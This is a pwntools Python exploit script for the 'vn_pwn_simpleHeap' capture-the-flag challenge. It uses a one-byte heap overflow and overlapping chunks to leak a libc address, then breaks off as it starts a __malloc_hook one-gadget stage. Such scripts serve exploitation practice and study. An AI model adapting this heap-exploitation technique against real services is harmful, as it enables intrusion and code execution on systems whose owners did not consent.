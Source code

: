 ```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

# p = process('./vn_pwn_simpleHeap')
p = remote('node3.buuoj.cn', 26925)
elf = ELF('./vn_pwn_simpleHeap')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadget = 0x4526a
main_arena_offset = 0x3c4b20

def debug(p, cmd):
  gdb.attach(p, cmd)
  pause()

def add(size, content):
  p.sendlineafter('choice: ', '1')
  p.sendlineafter('size?', str(size))
  p.sendafter('content:', content)

def edit(idx, content):
  p.sendlineafter('choice: ', '2')
  p.sendlineafter('idx?', str(idx))
  p.sendafter('content:', content)

def show(idx):
  p.sendlineafter('choice: ', '3')
  p.sendlineafter('idx?', str(idx))

def delete(idx):
  p.sendlineafter('choice: ', '4')
  p.sendlineafter('idx?', str(idx))

# leak libc
add(0x18, 'idx0\n')
add(0x18, 'idx1\n')
add(0x18, 'idx2\n')
add(0x60, 'idx3\n')
add(0x60, 'idx4\n')

edit(0, 'a' * 0x18 + '\x41')
delete(1)
add(0x30, 'idx1')
edit(1, p64(0) * 3 + p64(0x91) + '\n')
delete(2)
# edit(1, 'a' * 0x20)
delete(1)
add(0x30, 'a' * 0x20)
show(1)
p.recvuntil('a' * 0x20)
main_arena = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
libc.address = main_arena - main_arena_offset - 88
success('main_arena : ' + str(hex(main_arena)))
success('libc : ' + str(hex(libc.address)))
# debug(p, '\n')
pause()

# __malloc_hook && gadget
edit(1, p64(0) * 3 + p64(0x91) + '\n')
add(0x60, 'idx2')
```